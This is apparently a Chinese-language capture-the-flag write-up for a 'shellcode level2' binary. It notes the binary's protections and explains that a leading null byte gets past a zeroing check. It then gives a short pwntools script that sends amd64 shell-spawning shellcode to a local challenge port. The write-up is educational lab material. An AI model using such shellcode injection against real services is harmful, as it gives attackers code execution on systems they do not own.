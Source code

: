 # shellcode level2

## 文件分析

下载`shellcode_level2`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序用gets读入100字节，shellcode随便打  
程序运行一个变量+1对应的地址，且该变量首字节不为0则全部置0  
即先放一个`\0`再放shellcode即可

## EXPLOIT

```python
from pwn import *
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh = remote("localhost", 45341)
sh.sendline(b'\0' + shc)
sh.interactive()
```

Done.
